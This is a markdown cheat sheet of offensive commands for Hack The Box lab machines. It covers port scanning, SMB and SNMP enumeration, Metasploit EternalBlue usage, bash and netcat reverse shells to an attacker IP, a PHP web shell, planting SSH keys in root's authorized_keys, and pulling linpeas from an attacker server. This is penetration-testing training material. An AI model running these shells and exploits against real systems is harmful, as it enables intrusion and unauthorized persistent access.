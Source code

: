 # HTB Machine Methodology Cheat Sheet

## 🧭 Command Reference Table

### 🔍 Service Scanning

| Command | Description |
|--------|-------------|
| `nmap 10.129.42.253` | Basic port scan |
| `nmap -sV -sC -p- 10.129.42.253` | Full port scan with version detection and default scripts |
| `locate scripts/citrix` | Find specific nmap scripts |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run specific nmap script on port |
| `netcat 10.10.10.10 22` | Banner grabbing on SSH port |
| `smbclient -N -L \\\\10.129.42.253` | List SMB shares anonymously |
| `smbclient \\\\10.129.42.253\\users` | Connect to specific SMB share |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | SNMP enumeration |
| `onesixtyone -c dict.txt 10.129.42.254` | SNMP community string brute force |

### 🌐 Web Enumeration

| Command | Description |
|--------|-------------|
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` | Directory brute force |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Subdomain enumeration |
| `curl -IL https://www.inlanefreight.com` | Get HTTP headers |
| `whatweb 10.10.10.121` | Web technology identification |
| `curl 10.10.10.121/robots.txt` | Check robots.txt file |
| `Ctrl+U` | View page source in browser |

### 💥 Public Exploits

| Command | Description |
|--------|-------------|
| `searchsploit openssh 7.2` | Search for exploits |
| `msfconsole` | Start Metasploit Framework |
| `search exploit eternalblue` | Search Metasploit for exploits |
| `use exploit/windows/smb/ms17_010_psexec` | Select Metasploit module |
| `show options` | Show module options |
| `set RHOSTS 10.10.10.40` | Set target in Metasploit |
| `check` | Check if target is vulnerable |
| `exploit` | Run the exploit |

### 🐚 Using Shells

| Command | Description |
|--------|-------------|
| `nc -lvnp 1234` | Start netcat listener |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Reverse shell using bash |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Reverse shell with named pipe |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f` | Bind shell with named pipe |
| `nc 10.10.10.1 1234` | Connect to bind shell |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (method 1) |
| `Ctrl+Z`, `stty raw -echo`, `fg`, Enter twice | Upgrade shell TTY (method 2) |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create PHP web shell |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute command via web shell |

### 🔐 Privilege Escalation

| Command | Description |
|--------|-------------|
| `./linpeas.sh` | Run Linux privilege escalation script |
| `sudo -l` | List available sudo privileges |
| `sudo -u user /bin/echo Hello World!` | Run command as specific user |
| `sudo su -` | Switch to root user |
| `sudo su user -` | Switch to specific user |
| `ssh-keygen -f key` | Generate SSH key pair |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add public key to authorized_keys |
| `ssh root@10.10.10.10 -i key` | SSH with private key |

### 📁 Transferring Files

| Command | Description |
|--------|-------------|
| `python3 -m http.server 8000` | Start HTTP file server |
| `wget http://10.10.14.1:8000/linpeas.sh` | Download file via HTTP |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download file via curl |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh` | Secure copy file to remote host |
| `base64 shell -w 0` | Encode file to base64 |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell` | Decode base64 to file |
| `md5sum shell` | Verify file integrity |
